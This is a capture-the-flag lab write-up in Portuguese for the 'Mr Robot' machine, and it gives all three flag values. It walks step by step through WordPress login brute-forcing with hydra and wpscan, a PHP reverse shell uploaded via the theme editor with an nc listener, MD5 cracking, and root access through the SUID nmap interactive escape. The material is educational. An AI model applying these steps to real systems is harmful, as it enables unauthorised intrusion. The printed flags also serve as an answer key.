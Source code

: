 # Lab: Mr Robot (Medium Mode)

## Capture The Flags (CTF):

1. **What is key 1?** `073403c8a58a1f80d943455fb30724b9`
2. **What is key 2?** `822c73956184f694993bede3eb39f959`
3. **What is key 3?** `04787ddef27c3dee1ee161b21670b4e4`

---

## 1) Reconhecimento Inicial
```
export IP=10.10.200.166
```
```
nmap -A $IP
```
**Resultados:**
```
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
```

---

## 2) Enumeração de Diretórios
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IP -x php,sh,txt,html,js,css,py
```
**Resultados Principais:**
- `/wp-login`  
- `/robots` → Contém `fsocity.dic` e `key-1-of-3.txt`
- `/key-1-of-3.txt` → FLAG: `073403c8a58a1f80d943455fb30724b9`

---

## 3) Análise de Wordlist
```bash
wc fsocity.dic  # Conta linhas/palavras/caracteres
```
```bash
ls -l  # Lista ficheiros e tamanhos
```
```bash
sort fsocity.dic | uniq > fsocityUniq.txt  # Ordena e remove duplicados
```

---

## 4) Ataque de Força Bruta (Burp Suite + Hydra)
```bash
wpscan --url 10.10.101.133 --passwords admin --usernames fsocityUniq.txt
```
**Resultados:**
Username: Not Found!

**Burp Suite**: Interceptar a requisição do wp-login.php (usado pelo hydra)
```bash
hydra -L fsocityUniq.txt -p admin 10.10.200.166 http-post-form "/wp-login.php:log=^USER^&pass=^PASS^&wp-submit=LOG+In&redirect_to=http%3aA%2F%2F10.10.200.166%2Fwp-admin%2F&testcookie=1:Invalid username" -F -V
```
**Resultados:** 
Username: `elliot`

```bash
wpscan --url 10.10.101.133 --passwords fsocityUniq.txt --usernames elliot
```
**Credenciais Encontradas:**
- Username: `elliot`
- Password: `ER28-0652`

---

## 5) Reverse Shell via Editor PHP
```bash
cd /usr/share/webshells/php
```
```
cat php-reverse-shell.php > php-reverseshell.php
```
**Passos:**
1. Fazer upload do `php-reverseshell.php` no editor WordPress.
2. Iniciar listener:
```bash
nc -lnvp 9999
```
3. Aceder ao URL do ficheiro: `http://10.10.101.133/wp-content/themes/twentyfifteen/archive.php`

---

## 6) Escalada para Utilizador "robot"
```bash
whoami
cd home
cd robot
ls -l
cat password.raw-md5
```
**MD5 Encontrado:** `robot:c3fcd3d76192e4007dfb496cca67e13b`
**MD5 Descriptografado:** `abcdefghijklmnopqrstuvwxyz`

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```
su robot
```
**Password:** `abcdefghijklmnopqrstuvwxyz`
```bash
cat key-2-of-3.txt
```
**FLAG:** `822c73956184f694993bede3eb39f959`

---

## 7) Escalada de Privilégios para Root
```bash
find / -user root -perm -4000 2>/dev/null  # Identificar SUID bins
```
```bash
nmap --interactive
!sh
```
**Resultados:**
```bash
whoami  # root
cd /root
ls -l
cat key-3-of-3.txt
```
**FLAG Final:** `04787ddef27c3dee1ee161b21670b4e4`
